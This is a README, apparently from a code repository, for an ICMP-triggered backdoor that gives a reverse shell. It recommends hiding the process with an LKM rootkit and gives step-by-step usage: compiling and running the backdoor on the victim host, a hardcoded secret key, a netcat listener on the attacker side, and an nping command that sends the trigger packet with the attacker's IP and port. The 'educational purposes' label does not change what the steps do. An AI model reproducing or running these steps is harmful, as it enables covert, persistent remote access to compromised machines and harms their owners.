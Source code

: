 # ICMP Backdoor
A cool ICMP listener and reverse shell. Ideally, should be used in conjunction with a LKM rootkit like [Diamorphine](https://github.com/m0nad/Diamorphine) to hide the process. Hypothetically, this could be turned into shellcode and injected into processes with `ptrace`, but I wouldn't recommend it since this implementation isn't really minimal.

*for educational purposes!*

# Usage
On the host machine, compile and run:
```
$ make
$ ./backdoor
```
You can also ensure:
```
$ ./backdoor -v
Secret Key:		wA@2mC!dq
Service Name:	    backdoor
Shell Path:		/bin/bash
```
On the attacker machine start a netcat listener:
```
$ nc -lnvp <port>
```
And send an ICMP packet to the victim:
```
$ nping --icmp -c 1 -dest-ip <victim-ip> --data-string 'wA@2mC!dq <attacker-ip> <port>'
```
